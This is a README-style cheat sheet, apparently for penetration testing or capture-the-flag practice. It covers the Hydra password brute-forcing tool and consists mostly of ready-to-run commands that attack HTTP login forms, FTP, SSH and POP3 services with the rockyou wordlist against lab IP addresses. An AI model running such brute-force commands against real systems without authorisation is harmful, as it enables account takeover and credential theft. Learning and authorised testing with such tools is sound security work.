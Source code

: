 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# hydra
[https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra]
<hr/>

## install hydra in Linux
```sh
sudo dnf -y install hydra
```

## How hydra works
Using Hydra to Brute-Force Our First Login Page

Hydra is a fairly straight forward tool to use, but we have to first understand what it needs to work correctly. We’ll need to provide the following in order to break in:

- Login or Wordlist for Usernames
- Password or Wordlist for Passwords
- IP address or Hostname        
- HTTP Method (POST/GET)
- Directory/Path to the Login Page
- Request Body for Username/Password
- A Way to Identify Failed Attempts



> hydra -l <username> -p <password> <server> <service> -s <port> -t <thread> -o <output>
> -L <users> -P <passwords>

```sh
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

```sh
hydra -L username.txt -P password.txt 192.168.1.37 ftp -s 21
```

hydra -l <username> -p <password> ssh://<ip>



hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$IP -o hydra.ssh.jake
hydra -l john -P /usr/share/wordlists/rockyou.txt $IP -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=john&password=^PASS^:Incorrect Username or Password" -o hydra.http.john
hydra -V -I -L usernames.txt -P log1.txt $IP  http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -o hydra.http
hydra -I -L usernames.txt -P passwords.txt pop3://target.ip -t 64 -o hydra.pop3

